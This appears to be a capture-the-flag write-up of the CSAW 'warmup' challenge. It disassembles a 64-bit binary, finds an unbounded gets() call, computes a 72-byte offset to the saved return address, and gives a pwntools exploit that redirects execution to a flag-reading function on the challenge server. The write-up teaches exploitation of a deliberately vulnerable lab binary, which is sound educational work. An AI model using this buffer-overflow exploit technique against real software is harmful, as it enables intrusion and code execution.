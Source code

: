 ```
So you want to be a pwn-er huh? Well let's throw you an easy one ;)

nc pwn.chal.csaw.io 8000
```

Let's take a look at the file they gave us.

```
guyinatuxedo@tux:/Hackery/ctf/csaw/warmup$ file warmup 
warmup: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ab
209f3b8a3c2902e1a2ecd5bb06e258b45605a4, not stripped
```

So this is a 64 bit linux executable, so the registers will be named different from traditional 32 bit registers, and the addresses
will be longer. Let's see what this elf does.

```
guyinatuxedo@tux:/Hackery/ctf/csaw/warmup$ ./warmup 
-Warm Up-
WOW:0x40060d
>gimme the flag
guyinatuxedo@tux:/Hackery/ctf/csaw/warmup$ ./warmup 
-Warm Up-
WOW:0x40060d
>please
```

From the looks of it, it just prints out an address, takes input, then exits. Let's take a look at the assembly of the main function using gdb.

```
guyinatuxedo@tux:/Hackery/ctf/csaw/warmup$ gdb ./warmup 
gdb-peda$ disas main
Dump of assembler code for function main:
   0x000000000040061d <+0>:	push   rbp
   0x000000000040061e <+1>:	mov    rbp,rsp
   0x0000000000400621 <+4>:	add    rsp,0xffffffffffffff80
   0x0000000000400625 <+8>:	mov    edx,0xa
   0x000000000040062a <+13>:	mov    esi,0x400741
   0x000000000040062f <+18>:	mov    edi,0x1
   0x0000000000400634 <+23>:	call   0x4004c0 <write@plt>
   0x0000000000400639 <+28>:	mov    edx,0x4
   0x000000000040063e <+33>:	mov    esi,0x40074c
   0x0000000000400643 <+38>:	mov    edi,0x1
   0x0000000000400648 <+43>:	call   0x4004c0 <write@plt>
   0x000000000040064d <+48>:	lea    rax,[rbp-0x80]
   0x0000000000400651 <+52>:	mov    edx,0x40060d
   0x0000000000400656 <+57>:	mov    esi,0x400751
   0x000000000040065b <+62>:	mov    rdi,rax
   0x000000000040065e <+65>:	mov    eax,0x0
   0x0000000000400663 <+70>:	call   0x400510 <sprintf@plt>
   0x0000000000400668 <+75>:	lea    rax,[rbp-0x80]
   0x000000000040066c <+79>:	mov    edx,0x9
   0x0000000000400671 <+84>:	mov    rsi,rax
   0x0000000000400674 <+87>:	mov    edi,0x1
   0x0000000000400679 <+92>:	call   0x4004c0 <write@plt>
   0x000000000040067e <+97>:	mov    edx,0x1
   0x0000000000400683 <+102>:	mov    esi,0x400755
   0x0000000000400688 <+107>:	mov    edi,0x1
   0x000000000040068d <+112>:	call   0x4004c0 <write@plt>
   0x0000000000400692 <+117>:	lea    rax,[rbp-0x40]
   0x0000000000400696 <+121>:	mov    rdi,rax
   0x0000000000400699 <+124>:	mov    eax,0x0
   0x000000000040069e <+129>:	call   0x400500 <gets@plt>
   0x00000000004006a3 <+134>:	leave  
   0x00000000004006a4 <+135>:	ret    
End of assembler dump.
```

Looking at this, we can see that it calls a function write(), which probably does what it sounds like and is what is responsible for printing the text at the beginning.
However, right before the program leaves we see that it calls the vulnerable function gets(). This function is vulnerable because it will just accept input untill it crashes, which will leas to buffer overflows.
With this we can overflow the return address stored in the rip register, however we need to calculate the difference between where we can start writing to the stack, and the rip register location.

```
gdb-peda$ b *main+134
Breakpoint 1 at 0x4006a3
gdb-peda$ run
Starting program: /Hackery/ctf/csaw/warmup/warmup 
-Warm Up-
WOW:0x40060d
>0000000000
```

and after a bunch of output

```
Breakpoint 1, 0x000000000040069e in main ()
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffde70:
 rip = 0x40069e in main; saved rip = 0x7ffff7a2e830
 called by frame at 0x7fffffffdf30
 Arglist at 0x7fffffffde60, args: 
 Locals at 0x7fffffffde60, Previous frame's sp is 0x7fffffffde70
 Saved registers:
  rbp at 0x7fffffffde60, rip at 0x7fffffffde68
gdb-peda$ x $rbp-0x40
0x7fffffffde20:	0x3030303030303030 
```

From there we can see that the rip register is stored at the address 0x7fffffffde68, and that the address that our input is first stored at is 0x7fffffffde20. I knew to look at rbp-0x40, because it was the location pushed onto the stack before gets() was called, so it had to be an argument for gets().
In addition to that, the value that is currently stored there 0x30 repeating is hex for 0, which is what should be there.

```
0x7fffffffde70 - 0x7fffffffde20 = 72
```

So we now know that we have to write 72 characters before we hit the rip register, and we can change code execution flow. However what do we change it to? Let's see if that address the program gives us acutally leads anywhere using objdump.

```
guyinatuxedo@tux:/Hackery/ctf/csaw/warmup$ objdump -t warmup | grep 40060d
000000000040060d g     F .text	0000000000000010              easy
```

So it leads to a function named easy. It is worth a shot to see what happens if we changed the code flow execution to run this function (when you look at the function, you see that it opens a file named flag.txt). Here is the exploit to do so.

```
#First import pwntools
from pwn import *

#Setup remote connection to the server. The commented line below this is to setup an interface to a local elf stored in the same directory as the exploit in stead of the one on the server
conn = remote('pwn.chal.csaw.io', 8000)
#conn = process('warmup')

#This constructs the payload, and since this is 64 bit, the address has to be 8 bytes instead of 4
payload = "0"*72 + "\x0d\x06\x40\x00\x00\x00\x00\x00"

#This prints out the text in the beginning
print conn.recvline()
print conn.recvline()

#This sends the payload
print "Sending payload"
conn.sendline(payload)

#This drops us to an interactive prompt, so we can read the flag 
conn.interactive()
```

And the exploit works, and we have the flag. Now if this challenge has been taken down, you can just exploit the elf. Except it won't give you the flag, it will give you an error like this.

```
>cat: flag.txt: No such file or directory
```



